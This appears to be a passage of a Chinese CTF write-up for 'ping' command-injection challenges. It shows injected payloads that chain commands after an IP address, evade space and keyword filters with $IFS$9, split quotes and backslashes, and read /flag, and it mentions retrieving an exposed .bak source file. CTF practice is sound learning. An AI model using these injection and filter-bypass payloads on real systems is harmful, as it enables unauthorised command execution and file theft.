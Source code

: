 ![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859284.png)

空格绕过方法上面有提到

在绕过空格后有提示对flag做了安保

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859286.png)

那就用""再绕

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859285.png)

找到目录，读取flag

```
127.0.0.1&&find$IFS$9/$IFS$9-name$IFS$9"fla""g"
```

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859287.png)

ping4

用ls发现不行用dir可以

得到两个文件

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859288.png)

看到有.bak文件。bak文件知识：https://writeup.ctfhub.com/Skill/Web/%E4%BF%A1%E6%81%AF%E6%B3%84%E9%9C%B2/%E5%A4%87%E4%BB%BD%E6%96%87%E4%BB%B6%E4%B8%8B%E8%BD%BD/1294246a.html

下载bak文件，把bak后缀删掉打开

![](https://tcakalr.gitee.io/tc/%E5%BE%AE%E4%BF%A1%E5%9B%BE%E7%89%87_202012161859289.png)

发现过滤掉了许多东西可以用\绕过对cat的过滤

写入

```
127.0.0.1&&c\a\t /flag
```

读取flag